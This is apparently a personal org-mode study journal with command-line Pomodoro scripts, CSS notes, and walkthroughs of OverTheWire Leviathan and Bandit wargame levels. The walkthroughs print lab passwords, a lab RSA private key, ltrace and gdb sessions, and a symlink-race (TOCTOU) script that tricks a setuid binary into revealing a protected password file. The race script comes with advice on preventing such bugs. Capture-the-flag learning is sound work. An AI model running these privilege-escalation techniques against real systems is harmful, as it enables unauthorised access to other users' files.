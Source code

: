 # -*- auto-fill-function: nil; eval: (add-hook 'after-save-hook 'org-babel-tangle nil t); -*-

Current project: [[https://github.com/rafaelbeirigo/odin-css-exercises/][Web Development Foundations Course from The Odin Project]].

* [2025-10-16 Thu]

** CSS: we got an assignment!

Check it out [[https://github.com/rafaelbeirigo/odin-css-exercises/][here]].

** Pomodoro

I may have spent more time than I should have "sharpening this axe"...
Anyway, need a command-line Pomodoro?

*** ~pomodoro~

#+begin_src shell
#!/bin/bash

ME=$(basename $0)

if [ $# -eq 1 ] && ( [ $1 == "-h" ] || [ $1 == "--help" ] )
then
    echo "Usage: $ME [POPUP_NOTIFICATION [OSD_COUNTDOWN [TITLE]]]

POPUP_NOTIFICATION (boolean; default: \"false\")
    Controls if a popup will be shown when time is up.
OSD_COUNTDOWN (boolean; default: \"true\")
    Controls if the countdown will be show on screen (using OSD).
TITLE (string; default: \"Pomodoro\")
     is the headliner of the popup notification.

Boolean values should be \"true\" or \"false\"."
    exit 0
fi

[ $# -ge 1 ] && POPUP_NOTIFICATION=$1 || POPUP_NOTIFICATION=false
[ $# -ge 2 ] && OSD_COUNTDOWN=$2 || OSD_COUNTDOWN=true
[ $# -ge 3 ] && TITLE=$3 || TITLE="Pomodoro"

BIG_INTERVAL="25m"
SHORT_INTERVAL="5m"

TIMER_ARGS="$TITLE $POPUP_NOTIFICATION $OSD_COUNTDOWN"
while [ true ]
do
    timer $BIG_INTERVAL $TIMER_ARGS
    timer $SHORT_INTERVAL $TIMER_ARGS
done
#+end_src

*** ~timer~

#+begin_src shell
#!/bin/bash

ME=$(basename $0)

USAGE="Usage: $ME TIME_AMOUNT [TITLE [POPUP_NOTIFICATION [OSD_COUNTDOWN]]]

TITLE (string; default: \"Pomodoro\")
     is the headliner of the popup notification.
POPUP_NOTIFICATION (boolean; default: \"false\")
    Controls if a popup will be shown when time is up.
OSD_COUNTDOWN (boolean; default: \"true\")
    Controls if the countdown will be show on screen (using OSD).

Boolean values should be \"true\" or \"false\"."

if [ $1 == "-h" ] || [ $1 == "--help" ]
then
    echo "$USAGE"
    exit 0
fi

die () {
    echo >&2 "$@"
    exit 1
}

[ $# -ge 1 ] && TIME=$1 || die $USAGE
[ $# -ge 2 ] && TITLE=$2 || TITLE="Timer"
[ $# -ge 3 ] && POPUP_NOTIFICATION=$3
[ $# -ge 4 ] && OSD_COUNTDOWN=$4

OSD_CAT_FLAGS='--pos=top --align=right --delay=60 --shadow=3 --outline=0 --outlinecolour=black --color=cyan --font=-misc-fixed-medium-r-normal--75-*-*-*-*-*-*'

# Determine the unit for the time (minutes or seconds, default to minutes)
UNIT=${TIME: -1}
if [[ $UNIT = @(m|s) ]];
then
    DIGITS=${TIME::-1}
else
    UNIT=m
    DIGITS=$TIME
fi

for TIC in $(seq ${DIGITS} -1 1);
do
    # Display remaining time on the terminal
    echo Remaining: $TIC$UNIT

    # Display remaining time via OSD
    if $OSD_COUNTDOWN
    then
        echo "${TIC}${UNIT}" | osd_cat $OSD_CAT_FLAGS &
    fi

    sleep 1$UNIT
done

# Pop-up notification at the end of the timer
if $POPUP_NOTIFICATION
then
    notify-send --urgency=critical \
                --expire-time=0 \
                "$TITLE" \
                "Time ($TIME) is up."
fi

# Give an audible cue that the timer is done
ding
#+end_src

*** ~ding~

#+begin_src shell
#!/bin/bash

mocp --play /usr/share/sounds/freedesktop/stereo/complete.oga
#+end_src

* [2025-10-15 Wed]

** CSS

Studied the Box Model.
This time with exercises: much better.

** CTF

Back to overthewire.
picoCTF helped.
It fealt really easier today.
picoCTF /teaches/ things like how to use gdb.
I could think of many different approaches today because of that.

Finished Leviathan \o/
Loved the challenges!

*** overthewire.org

**** 3

f0n8h2iWLP

- setuid binary in home folder
- ~ltrace~ showed a call to ~strcmp~ with the payload
- input payload gives setuid shell

#+begin_example
leviathan3@leviathan:~$ ltrace ./level3 
fgets(Enter the password> snlprintf
"snlprintf\n", 256, 0xf7fae5c0)                                                                               = 0xffffd24c
strcmp("snlprintf\n", "snlprintf\n")                                                                                = 0
puts("[You've got shell]!"[You've got shell]!

leviathan3@leviathan:~$ ./level3
Enter the password> snlprintf
[You've got shell]!
$ id
uid=12004(leviathan4) gid=12003(leviathan3) groups=12003(leviathan3)
$ cat /etc/leviathan_pass/leviathan4
#+end_example

**** 4

WG1egElCvO

#+begin_example
leviathan4@leviathan:~$ ll
total 24
drwxr-xr-x   3 root root       4096 Oct 14 09:27 ./
drwxr-xr-x 150 root root       4096 Oct 14 09:29 ../
-rw-r--r--   1 root root        220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root root       3851 Oct 14 09:19 .bashrc
-rw-r--r--   1 root root        807 Mar 31  2024 .profile
dr-xr-x---   2 root leviathan4 4096 Oct 14 09:27 .trash/
leviathan4@leviathan:~$ find .trash/
.trash/
.trash/bin
leviathan4@leviathan:~$ cd .trash/
leviathan4@leviathan:~/.trash$ ll
total 24
dr-xr-x--- 2 root       leviathan4  4096 Oct 14 09:27 ./
drwxr-xr-x 3 root       root        4096 Oct 14 09:27 ../
-r-sr-x--- 1 leviathan5 leviathan4 14940 Oct 14 09:27 bin*
leviathan4@leviathan:~/.trash$ file bin
bin: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=52e379ac2e364243895250cb84038a8bf5d3e4e5, for GNU/Linux 3.2.0, not stripped
leviathan4@leviathan:~/.trash$ ./bin
00110000 01100100 01111001 01111000 01010100 00110111 01000110 00110100 01010001 01000100 00001010 
#+end_example

There's a binary that prints a binary sequence.
Converted to ASCII, it give the next password.

**** 5

0dyxT7F4QD

There is a setuid binary in the home folder.

#+begin_example
leviathan5@leviathan:~$ ./leviathan5 
Cannot find /tmp/file.log
#+end_example

It wants a file.

#+begin_example
leviathan5@leviathan:~$ echo "abcdefg" > /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5 
abcdefg
#+end_example

It spills out that file's contents.

#+begin_example
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5 
szo7HDB88w
#+end_example

**** 6

szo7HDB88w

***** DONE ~strings~ in the binary?  No

***** Can I use gdb to see the pin code?

#+begin_src shell
leviathan6@leviathan:~$ gdb --args ./leviathan6 1234
#+end_src

After ~disassemble main~, I could see there's a comparison followed by ~jne~.

#+begin_example
=> 0x0804921a <+84>:    cmp    %eax,-0xc(%ebp)
   0x0804921d <+87>:    jne    0x804924a <main+132>
#+end_example

Maybe it's here they're testing the input for equality.

Examining the registers

#+begin_example
(gdb) info registers
eax            0x4d2               1234
ebp            0xffffd368          0xffffd368
#+end_example

- ~eax~ has the input
- ~ebp~ has a memory address
  - the comparison offsets that address by ~0xc~


Examining the contents of that piece of memory:

#+begin_example
(gdb) x $ebp-0xc
0xffffd35c:     0x00001bd3
#+end_example

~0x1bd3~ == 7123

#+begin_example
leviathan6@leviathan:~$ ./leviathan6 7123
$ id
uid=12007(leviathan7) gid=12006(leviathan6) groups=12006(leviathan6)
$ cat /etc/leviathan_pass/leviathan7
qEs5Io5yM8
#+end_example

**** 7
qEs5Io5yM8

#+begin_example
leviathan7@leviathan:~$ ll
total 24
drwxr-xr-x   2 root       root       4096 Oct 14 09:27 ./
drwxr-xr-x 150 root       root       4096 Oct 14 09:29 ../
-rw-r--r--   1 root       root        220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root       root       3851 Oct 14 09:19 .bashrc
-r--r-----   1 leviathan7 leviathan7  178 Oct 14 09:27 CONGRATULATIONS
-rw-r--r--   1 root       root        807 Mar 31  2024 .profile
#+end_example

** Seinfeld Checkmark

[[file:images/2025-10-15_seinfeld.jpeg]]

* [2025-10-14 Tue]

The slope got steep at overthewire.org.
Went to picoCTF for some structured intro.
Today I read the Primer and worked on some playlists:
- The Beginner's Guide to the picoGym: 25/25
- Cryptography and picoGym Learning Intro 1/15
- Low Level Binary Intro 38/46
- Forensics in CTF's 6/17
- Python in CTF's 13/19
- Vault Door Series 1/8
- Sleuthkit Series 2/2
- PW Crack Series 5/5

** Seinfeld Checkmark

[[file:images/2025-10-14_seinfeld.jpeg]]

* [2025-10-13 Mon]

Some [[https://overthewire.org/][bit scrubbing]] (these last days) and today!

** Leviathan

*** Intro

#+begin_quote
Leviathan’s levels are called leviathan0, leviathan1, … etc. and can be accessed on

leviathan.labs.overthewire.org through SSH on port 2223.

To login to the first level use:

Username: leviathan0
Password: leviathan0

Data for the levels can be found in the homedirectories. You can look at /etc/leviathan_pass for the various level passwords.
#+end_quote

*** Functions

**** Automatically assemble SSH command from given user and password (C-. C-.)

#+begin_src elisp :results none
(defun hack-ctf-overthewire-dot-org-leviathan-ssh-command
    (arg user password)
  "Read USER and PASSWORD then return complete ssh command.
When ARG in non-nil do not use comman `sshpass' to automatically
send PASSWORD to `ssh'.  Apparently the first connection must be
established the old way."
  (interactive
   (list
    current-prefix-arg
    (read-string "user: "
                 "leviathan" ;; challenge's prefix
                 hack-ctf-user-history)
    (read-string "password: " nil
                 hack-ctf-password-history)))
  (let* ((challenge-subdomain "leviathan")
         (challenge-port "2223")
         (url (concat challenge-subdomain ".labs.overthewire.org"))
         (ssh-command (concat
                       (unless arg (concat "sshpass -p " password " "))
                       "ssh " url
                       " -p " challenge-port
                       " -l " user)))
    (kill-new ssh-command)
    (message "hack-ctf: ssh command copied to clipboard")
    (sleep-for 2)
    (if (and arg (yes-or-no-p "copy password to clipboard now?"))
        (kill-new password))))
(keymap-local-set "C-. C-."
                  'hack-ctf-overthewire-dot-org-leviathan-ssh-command)
#+end_src

*** 0 (I /have/ the password for leviathan0 and /want/ the one for leviathan1)
leviathan0

#+begin_example
leviathan0@leviathan:~/.backup$ cat bookmarks.html
#+end_example

#+begin_example
<DT><A HREF="http://leviathan.labs.overthewire.org/passwordus.html | This will be fixed later, the password for leviathan1 is 3QJ3TgzHDq" ADD_DATE="1155384634" LAST_CHARSET="ISO-8859-1" ID="rdf:#$2wIU71">password to leviathan1</A>
#+end_example

*** 1

3QJ3TgzHDq

#+begin_example
leviathan1@leviathan:~$ ll
total 36
drwxr-xr-x   2 root       root        4096 Aug 15 13:17 ./
drwxr-xr-x 150 root       root        4096 Aug 15 13:18 ../
-rw-r--r--   1 root       root         220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root       root        3851 Aug 15 13:09 .bashrc
-r-sr-x---   1 leviathan2 leviathan1 15084 Aug 15 13:17 check*
-rw-r--r--   1 root       root         807 Mar 31  2024 .profile
#+end_example

#+begin_example
leviathan1@leviathan:~$ ltrace ./check
__libc_start_main(0x80490ed, 1, 0xffffd464, 0 <unfinished ...>
printf("password: ")                                                                                                                                = 10
getchar(0, 0, 0x786573, 0x646f67password: sex
)                                                                                                                   = 115
getchar(0, 115, 0x786573, 0x646f67)                                                                                                                 = 101
getchar(0, 0x6573, 0x786573, 0x646f67)                                                                                                              = 120
strcmp("sex", "sex")                                                                                                                                = 0
geteuid()                                                                                                                                           = 12001
geteuid()                                                                                                                                           = 12001
setreuid(12001, 12001)                                                                                                                              = 0
system("/bin/sh"$
$ cat /etc/leviathan_pass/leviathan2
cat: /etc/leviathan_pass/leviathan2: Permission denied
$ whoami
leviathan1
$ id
uid=12001(leviathan1) gid=12001(leviathan1) groups=12001(leviathan1)
$ pwd
/home/leviathan1
$ ./check
password: sex
$ id
uid=12002(leviathan2) gid=12001(leviathan1) groups=12001(leviathan1)
$ cat /etc/leviathan_pass/leviathan2
NsN1HwFoyN
#+end_example

If I run it without ltrace, it does not drop privileges.

#+begin_example
leviathan1@leviathan:~$ ltrace ./check <------------------------------------------------------------------------------------------------------------- WITH LTRACE
__libc_start_main(0x80490ed, 1, 0xffffd464, 0 <unfinished ...>
printf("password: ")                                                                                                                                = 10
getchar(0, 0, 0x786573, 0x646f67password: sex
)                                                                                                                   = 115
getchar(0, 115, 0x786573, 0x646f67)                                                                                                                 = 101
getchar(0, 0x6573, 0x786573, 0x646f67)                                                                                                              = 120
strcmp("sex", "sex")                                                                                                                                = 0
geteuid()                                                                                                                                           = 12001
geteuid()                                                                                                                                           = 12001
setreuid(12001, 12001)                                                                                                                              = 0
system("/bin/sh"$ id
uid=12001(leviathan1) gid=12001(leviathan1) groups=12001(leviathan1) <------------------------------------------------------------------------------- DROPPED PRIVILEGES
$ ltrace ./check
__libc_start_main(0x80490ed, 1, 0xffffd474, 0 <unfinished ...>
printf("password: ")                                                                                                                                = 10
getchar(0, 0, 0x786573, 0x646f67password: sex
)                                                                                                                   = 115
getchar(0, 115, 0x786573, 0x646f67)                                                                                                                 = 101
getchar(0, 0x6573, 0x786573, 0x646f67)                                                                                                              = 120
strcmp("sex", "sex")                                                                                                                                = 0
geteuid()                                                                                                                                           = 12001
geteuid()                                                                                                                                           = 12001
setreuid(12001, 12001)                                                                                                                              = 0
system("/bin/sh"$ id
uid=12001(leviathan1) gid=12001(leviathan1) groups=12001(leviathan1)
$ ./check
password: sex
$ id
uid=12002(leviathan2) gid=12001(leviathan1) groups=12001(leviathan1)
$ 
$ 
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                              = 0
+++ exited (status 0) +++
$ id
uid=12001(leviathan1) gid=12001(leviathan1) groups=12001(leviathan1)
$ 
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                              = 0
+++ exited (status 0) +++
leviathan1@leviathan:~$ ./check
password: sex
$ id
uid=12002(leviathan2) gid=12001(leviathan1) groups=12001(leviathan1)
#+end_example

*** 2

NsN1HwFoyN

**** Poke

***** Successful execution

#+begin_example
leviathan2@leviathan:~$ ltrace ./printfile .profile 
__libc_start_main(0x80490ed, 2, 0xffffd454, 0 <unfinished ...>
access(".profile", 4)                                                                                                                               = 0
snprintf("/bin/cat .profile", 511, "/bin/cat %s", ".profile")                                                                                       = 17
geteuid()                                                                                                                                           = 12002
geteuid()                                                                                                                                           = 12002
setreuid(12002, 12002)                                                                                                                              = 0
system("/bin/cat .profile"# ~/.profile: executed by the command interpreter for login shells.
# This file is not read by bash(1), if ~/.bash_profile or ~/.bash_login
# exists.
# see /usr/share/doc/bash/examples/startup-files for examples.
# the files are located in the bash-doc package.

# the default umask is set in /etc/profile; for setting the umask
# for ssh logins, install and configure the libpam-umask package.
#umask 022

# if running bash
if [ -n "$BASH_VERSION" ]; then
    # include .bashrc if it exists
    if [ -f "$HOME/.bashrc" ]; then
        . "$HOME/.bashrc"
    fi
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/bin" ] ; then
    PATH="$HOME/bin:$PATH"
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/.local/bin" ] ; then
    PATH="$HOME/.local/bin:$PATH"
fi
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                              = 0
+++ exited (status 0) +++
#+end_example

***** Order of tests and calls

Previous one:

#+begin_example
strcmp("sex", "sex")                                                                                                                                = 0
geteuid()                                                                                                                                           = 12001
geteuid()                                                                                                                                           = 12001
setreuid(12001, 12001)                                                                                                                              = 0
system("/bin/sh"$ id
#+end_example

This one:

#+begin_example
access(".profile", 4)                                                                                                                               = 0
snprintf("/bin/cat .profile", 511, "/bin/cat %s", ".profile")                                                                                       = 17
geteuid()                                                                                                                                           = 12002
geteuid()                                                                                                                                           = 12002
setreuid(12002, 12002)                                                                                                                              = 0
system("/bin/cat .profile"# ~/.profile: executed by the command interpreter for login shells.
#+end_example

**** DONE Does it print the password file without tracing?  No

#+begin_example
leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3 
You cant have that file...
#+end_example

**** DONE Does it get ~cat~ from PATH?  No

#+begin_example
leviathan2@leviathan:~$ export PATH=""
leviathan2@leviathan:~$ ./printfile .profile 
# ~/.profile: executed by the command interpreter for login shells.
# This file is not read by bash(1), if ~/.bash_profile or ~/.bash_login
# exists.
# see /usr/share/doc/bash/examples/startup-files for examples.
# the files are located in the bash-doc package.

# the default umask is set in /etc/profile; for setting the umask
# for ssh logins, install and configure the libpam-umask package.
#umask 022

# if running bash
if [ -n "$BASH_VERSION" ]; then
    # include .bashrc if it exists
    if [ -f "$HOME/.bashrc" ]; then
        . "$HOME/.bashrc"
    fi
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/bin" ] ; then
    PATH="$HOME/bin:$PATH"
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/.local/bin" ] ; then
    PATH="$HOME/.local/bin:$PATH"
fi
#+end_example
**** DONE Printar link mutante.  SOLVED
#+begin_example
#!/bin/bash


LEV=/etc/leviathan_pass/leviathan
LEV2=${LEV}2
LEV3=${LEV}3
L=/tmp/chaves-L
PRINTFILE=/home/leviathan2/printfile

ln -sf $LEV2 $L
$PRINTFILE $L &
ln -sf $LEV3
#+end_example

#+begin_example
leviathan2@leviathan:~$ vi /tmp/chaves.sh

---

#!/bin/bash

ln -sf /etc/leviathan_pass/leviathan2 /tmp/chaves-L
/home/leviathan2/printfile /tmp/chaves-L &
ln -sf /etc/leviathan_pass/leviathan3 /tmp/chaves-L

---

leviathan2@leviathan:~$ /tmp/chaves.sh
leviathan2@leviathan:~$ f0n8h2iWLP
#+end_example
**** ChatGPT comments

[[https://chatgpt.com/share/68ed9138-3f28-8006-ac1e-835908865878][ChatGPT]]

***** More robust TOCTOU script

#+begin_example
#!/bin/bash
# deterministic TOCTOU flipper for CTF practice only

GOOD="/home/leviathan2/.profile"   # a file RUID can read (replace with real file)
SECRET="/etc/leviathan_pass/leviathan3" # the secret you want printed
LINK="/tmp/chaves-L"
BINARY="/home/leviathan2/printfile"     # the setuid binary that does: check ACCESS then exec cat LINK

# make sure the link starts pointing to the readable file
ln -sf "$GOOD" "$LINK"

# start the target program in the background and capture its PID
"$BINARY" "$LINK" &
TARGET_PID=$!

# while the target is still alive, keep flipping the symlink
while kill -0 "$TARGET_PID" 2>/dev/null; do
  ln -sf "$GOOD" "$LINK"
  ln -sf "$SECRET" "$LINK"
done

# wait for the target to finish and print exit status
wait "$TARGET_PID"
echo "target exited with $?"
#+end_example


#+begin_example
leviathan2@leviathan:~$ /tmp/chaves.sh
f0n8h2iWLP
target exited with 0
#+end_example

***** Correct program design (how this should be prevented)

A secure program that needs to both check a user’s rights and open/use a file under another UID must avoid TOCTOU by not using separate pathname checks. Secure patterns include:

Open then verify using the opened descriptor

fd = open(path, O_RDONLY|O_NOFOLLOW);

fstat(fd, &st); Verify ownership/permissions on fd (not on path). Use fchmod/fchown/check st fields as needed. Because operations act on the already-opened descriptor, the target cannot be swapped by a symlink after open.

Use file-descriptor-based operations instead of re-resolving the pathname later (fexecve / run with fd or read from fd directly). That prevents lookup at time-of-use.

Avoid access() for security checks, because it checks current real/effective permissions against the filename and is vulnerable to TOCTOU. If the program needs to verify permissions, open the file (with the minimum privileges) and operate on the returned descriptor.

Drop privileges safely: if the program must switch to EUID to read something privileged, handle UID transitions carefully:

Temporarily set effective UID to the one that should do the check, open/lock the file descriptor, then set EUID to the other identity and use the already-open FD.

Use O_NOFOLLOW to prevent symlink abuse where appropriate.

Use kernel-level protections if available: openat2() with RESOLVE_NO_SYMLINKS (newer kernels) or seccomp / file capabilities to narrow attack surface.

In short: do the check and the use on the same resolved kernel object (the same FD), and do not re-resolve the pathname.

*** 3

f0n8h2iWLP

*** Seinfeld Checkmark

[[file:images/2025-10-13_seinfeld.jpeg]]

** Bandit

*** 0
ZjLjTmM6FvvyRnrb2rfNWOZOTa6ip5If

*** 1
263JGJPfgU6LtdEvgfWU1XP5yac29mFx

*** 2
MNk8KNH3Usiio41PRUEoDFPqfxLPlSmx

*** 3
2WmrDFRmJIq3IPxneAaMGhap0pFhF3NJ

*** 4
4oQYVPkxZOOEOO5pTW81FB8j8lxXGUQw

*** 5
Preciso achar um arquivo:
- human-readable
- 1033 bytes in size
- not executable


Será que o comando ~find~ dá isso?

#+begin_src bash
find . -type f -size 1033c -exec cat {} +
#+end_src

HWasnPhtq9AVKe0dmk45nxy20cvUa6EG

*** 6

file that:

    - owned by user bandit7
    - owned by group bandit6
    - 33 bytes in size

#+begin_src shell
find / 2>/dev/null -user bandit7 -group bandit6 -size 33c -exec cat {} \;
#+end_src

morbNTDkSW6jIlUc0ymOdMaLnOlFVAaj

*** 7

dfwvzFQi4mU0wfNbFOe9RoWskMLg7eEc

*** 8
4CKMh1JI91bUIZZPXDqGanal4xvAg0JM

*** 9

~strings data.txt~

FGUW5ilLVJrxX9kMYMmlN4MgbpfMiqey

*** 10

Nesse tem uma string codificada em base64.

#+begin_src shell
base64 -d data.txt
#+end_src

dtR173fZKb0RRsDFSGsg2RWnpNVj3qRr

*** 11

Nesse rotacionaram as letras em 13 posições.

Essa é uma cifra conhecida já, a tal da ROT13.
26 letras no falnalabeto: f == f^{-1}.
ROT13 é sua própria inversa.

#+begin_src shell
tr 'A-Za-z' 'N-ZA-Mn-za-m' < data.txt
#+end_src

7x16WNeHIi5YkIhWsfFIqoognUTyj9Q4

*** 12

Agora brotou um hexdump em plain text.
They tell it's a file that was compressed multiple times.

I need to get the file that generated that hexdump.
This can be done with:

#+begin_src shell
xxd -r data.txt
#+end_src

Aí foi uma cascata de uncompressing in several formats (bz2, gz, tar).

FO5dwFsc0cbaIiH0h8J2eUks2vdTDwAn

*** 13

#+begin_quote
The password for the next level is stored in /etc/bandit_pass/bandit14 and can only be read by user bandit14.

For this level, you don’t get the next password, but you get a private SSH key that can be used to log into the next level.

Note: localhost is a hostname that refers to the machine you are working on
#+end_quote

1. I copied the contents of the bandit14's private key that was in the home directory.
2. Then I renamed it to ~id_rsa~.
3. Then

#+begin_src shell
ssh bandit.labs.overthewire.org -p 2220 -i ~/.ssh/id_rsa_overthewire.org-bandit14-private-key -l bandit14
#+end_src

*** 14

#+begin_quote
The password for the next level can be retrieved by submitting the password of the current level to port 30000 on localhost.
#+end_quote

I got the pass from the folder mentioned in the previous Bandit:
MU4VWeTyJk8ROof1qqmcBPaLh7lDCPvS

I want to send that string (those bytes) to localhost on port 30000.

After readin man telnet.

#+begin_src shell
telnet localhost 30000
#+end_src

This opens a connection, and I can input text.
I typed the password, ENTER, and voilà:

8xCjnmgoKbGLhHFAZlGE5Tmu4M2tKJQo

*** 15

#+begin_quote
The password for the next level can be retrieved by submitting the password of the current level to port 30001 on localhost using SSL/TLS encryption.
#+end_quote

I connected to the server/port using ~openssl~.
It's the same procedure as the telnet, but Secure®.

#+begin_src shell
openssl s_client -crlf -connect localhost:30001
#+end_src

kSkvUpMQ7lBYyCM4GBPvCvT1BfWRy0Dx

*** 16

#+begin_quote
The credentials for the next level can be retrieved by submitting the password of the current level to a port on localhost in the range 31000 to 32000.
First find out which of these ports have a server listening on them.
Then find out which of those speak SSL/TLS and which don’t.
There is only 1 server that will give the next credentials, the others will simply send back to you whatever you send to it.
#+end_quote

#+begin_example
bandit16@bandit:~$ nmap -p 31000-32000 localhost
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-11 00:02 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00010s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT      STATE SERVICE
31046/tcp open  unknown
31518/tcp open  unknown
31691/tcp open  unknown
31790/tcp open  unknown
31960/tcp open  unknown
#+end_example

#+begin_src shell
for p in 31046 31518 31691 31790 31960; do openssl s_client -crlf -connect localhost:$p; done;
#+end_src

Testing connection:

| 31046 | Secure  Renegotiation  IS  NOT  supported |
| 31518 |                                           |
| 31691 |                                           |
| 31790 |                                           |
| 31960 |                                           |

I was having a problem:

#+begin_example
    Extended master secret: no
    Max Early Data: 0
---
read R BLOCK
kSkvUpMQ7lBYyCM4GBPvCvT1BfWRy0Dx    <---- sent the current passwor
KEYUPDATE                           <---- received this message
#+end_example

This happened because the sent data started with a *k*, that has a meaning in the /interactive/ session.

[[https://stackoverflow.com/a/58574851][This answer on Stackoverflow]] suggests to avoid using the interactive session with ~ign_eof~:

#+begin_src shell
for p in 31046 31518 31691 31790 31960; do openssl s_client -ign_eof -crlf -connect localhost:$p; done;
#+end_src

The correct one was:

#+begin_src shell
openssl s_client -ign_eof -crlf -connect localhost:31790
#+end_src

Got a private key :)

#+begin_src id_rsa :tangle ~/.ssh/id_rsa_overthewire.org-bandit17
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAvmOkuifmMg6HL2YPIOjon6iWfbp7c3jx34YkYWqUH57SUdyJ
imZzeyGC0gtZPGujUSxiJSWI/oTqexh+cAMTSMlOJf7+BrJObArnxd9Y7YT2bRPQ
Ja6Lzb558YW3FZl87ORiO+rW4LCDCNd2lUvLE/GL2GWyuKN0K5iCd5TbtJzEkQTu
DSt2mcNn4rhAL+JFr56o4T6z8WWAW18BR6yGrMq7Q/kALHYW3OekePQAzL0VUYbW
JGTi65CxbCnzc/w4+mqQyvmzpWtMAzJTzAzQxNbkR2MBGySxDLrjg0LWN6sK7wNX
x0YVztz/zbIkPjfkU1jHS+9EbVNj+D1XFOJuaQIDAQABAoIBABagpxpM1aoLWfvD
KHcj10nqcoBc4oE11aFYQwik7xfW+24pRNuDE6SFthOar69jp5RlLwD1NhPx3iBl
J9nOM8OJ0VToum43UOS8YxF8WwhXriYGnc1sskbwpXOUDc9uX4+UESzH22P29ovd
d8WErY0gPxun8pbJLmxkAtWNhpMvfe0050vk9TL5wqbu9AlbssgTcCXkMQnPw9nC
YNN6DDP2lbcBrvgT9YCNL6C+ZKufD52yOQ9qOkwFTEQpjtF4uNtJom+asvlpmS8A
vLY9r60wYSvmZhNqBUrj7lyCtXMIu1kkd4w7F77k+DjHoAXyxcUp1DGL51sOmama
+TOWWgECgYEA8JtPxP0GRJ+IQkX262jM3dEIkza8ky5moIwUqYdsx0NxHgRRhORT
8c8hAuRBb2G82so8vUHk/fur85OEfc9TncnCY2crpoqsghifKLxrLgtT+qDpfZnx
SatLdt8GfQ85yA7hnWWJ2MxF3NaeSDm75Lsm+tBbAiyc9P2jGRNtMSkCgYEAypHd
HCctNi/FwjulhttFx/rHYKhLidZDFYeiE/v45bN4yFm8x7R/b0iE7KaszX+Exdvt
SghaTdcG0Knyw1bpJVyusavPzpaJMjdJ6tcFhVAbAjm7enCIvGCSx+X3l5SiWg0A
R57hJglezIiVjv3aGwHwvlZvtszK6zV6oXFAu0ECgYAbjo46T4hyP5tJi93V5HDi
Ttiek7xRVxUl+iU7rWkGAXFpMLFteQEsRr7PJ/lemmEY5eTDAFMLy9FL2m9oQWCg
R8VdwSk8r9FGLS+9aKcV5PI/WEKlwgXinB3OhYimtiG2Cg5JCqIZFHxD6MjEGOiu
L8ktHMPvodBwNsSBULpG0QKBgBAplTfC1HOnWiMGOU3KPwYWt0O6CdTkmJOmL8Ni
blh9elyZ9FsGxsgtRBXRsqXuz7wtsQAgLHxbdLq/ZJQ7YfzOKU4ZxEnabvXnvWkU
YOdjHdSOoKvDQNWu6ucyLRAWFuISeXw9a/9p7ftpxm0TSgyvmfLF2MIAEwyzRqaM
77pBAoGAMmjmIJdjp+Ez8duyn3ieo36yrttF5NSsJLAbxFpdlc1gvtGCWW+9Cq0b
dxviW8+TFVEBl1O4f7HVm6EpTscdDxU+bCXWkfjuRb7Dy9GOtt9JPsX8MBTakzh3
vBgsyi/sN3RqRBcGU40fOoZyfAMT8s1m/uYv52O6IgeuZ/ujbjY=
-----END RSA PRIVATE KEY-----
#+end_src

#+begin_src shell
chmod 600 ~/.ssh/id_rsa_overthewire.org-bandit17
#+end_src

#+RESULTS:

*** 17

x2gLTTjFwMOhQ8oWNbMN362QKxfRqGlO

